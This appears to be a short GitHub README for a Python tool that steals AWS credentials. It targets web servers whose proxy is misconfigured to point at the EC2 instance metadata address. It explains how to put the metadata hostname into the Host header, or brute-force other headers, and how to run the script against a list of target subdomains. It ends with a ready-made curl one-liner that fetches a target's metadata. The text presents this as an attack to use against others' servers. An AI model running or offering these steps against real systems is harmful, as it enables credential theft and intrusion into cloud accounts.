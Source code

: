 ### What is this?
The set `proxy_server` and `proxy_pass` directives are typically used in the configuration file of a web server like Apache or Nginx running on an Amazon EC2 instance to configure a proxy server that will forward incoming requests to another server.


#### Misconfiguration:
Sometimes people set http://aws.ca.fi (which resolves to `169.254.169.254`) as proxy server that will receive incoming requests.

### Exploit
So we can modify the proxy by passing aws metadata url to the header and get aws-credentials. Most common header is `Host` header but you can brute-force with other headers to find out(modify the script accordingly).


### How to run?
- Pass a file(full path) with target subdomains
    - file format without http or https protocol: \
    ``` line 1: stage.abc.com 
        line 2: beta-stage.abc.com ```
- Run: `python aws-credentials-via-proxy.py C:\Users\Nitin\Documents\github\subdomains.txt`

If you have fewer or one target, run - `curl -ik -H "Host:aws.ca.fi" http://target.com/latest/meta-data/`
